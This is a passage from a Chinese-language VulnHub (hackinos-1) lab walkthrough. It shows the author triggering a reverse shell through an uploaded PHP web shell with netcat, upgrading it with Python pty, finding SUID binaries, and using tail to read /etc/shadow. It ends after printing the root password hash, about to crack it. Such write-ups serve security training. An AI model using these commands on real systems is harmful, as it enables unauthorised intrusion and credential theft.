 ```shell
nc -nlvvp 1337
```

浏览器中输入

```shell
http://192.168.217.136:8000/uploads/984a75b41e315a843c9c892d0cd234ef.php?cmd=nc 192.168.217.130 1337 -e /bin/bash
```

![1553587078421](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553587078421.png)

设置bash的临时环境变量

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

获取到临时环境变量以后，这个时候输入的命令都会再次出现，输入

```shell
stty raw -echo
```

![1553588561087](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553588561087.png)

然后，为了执行起来更方便，诸如一些输出和clear之类的，将TERM设置到当前屏幕

```shell
export TERM=screen
```

## 提权

这里可以利用suid进行提权查看root文件

```shell
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![1553588975466](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553588975466.png)

可以发现，其中有tail，我们可以拿tail来查看root用户的文件

```shell
tail -c1G /etc/shadow
```

![1553589032461](F:\学习资料\github\vulnhub-writeup\hackinos-1\assets\1553589032461.png)

将其中的root部分复制出来

```shell
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
```

将密码字段保存为文本文件，并进行爆破
